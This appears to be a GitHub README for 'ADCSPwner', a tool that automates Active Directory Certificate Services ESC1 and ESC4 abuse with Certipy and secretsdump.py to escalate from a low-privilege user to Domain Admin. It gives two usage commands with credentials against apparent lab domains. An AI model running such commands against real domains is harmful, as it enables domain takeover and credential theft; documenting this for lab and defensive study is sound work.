# ADCSPwner
An Automated tool leveraging Certipy &amp; secretsdump.py to gain Domain Admin from Low Priv User

## ADCS + DCSync Automation

#### Prerequisites 

- Certipy
- secretsdump.py (Part of impacket)
- pip3 install rich


### ESC1 - ADCS

```
python3 esc1.py -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -t sequel.htb
```

![image](https://github.com/user-attachments/assets/7c8eb551-4cf9-4194-aa5d-b99a7ce5bedb)


### ESC4 - ADCS

```
python3 esc4.py -u clifford.davey@sendai.vl -p 'RFmoB2WplgE_3p' -t sendai.vl -d 10.10.104.31
```

![image](https://github.com/user-attachments/assets/6cd20428-6349-44e1-a568-281a21fbb7c2)
